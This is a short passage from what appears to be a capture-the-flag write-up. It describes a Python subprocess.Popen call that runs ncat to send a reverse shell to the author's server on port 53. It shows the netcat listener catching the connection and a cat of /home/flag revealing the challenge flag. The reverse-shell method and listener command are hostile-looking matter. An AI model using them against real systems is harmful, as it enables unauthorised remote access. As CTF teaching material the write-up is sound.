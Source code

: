This opens a new subprocess with the python class `subprocess.Popen` and runs ncat to send a reverse shell to my server on port 53. On the server, the following happens:
```
# nc -lvp 53
listening on [any] 53 ...
connect to [92.222.68.177] from urb80-74-140-188.ch-meta.net [80.74.140.188] 38386
```

Then one can search for the flag and find it in `/home/flag`:
```
cat /home/flag
HV17-7h1s-1sju-t4ra-nd0m-flag
```
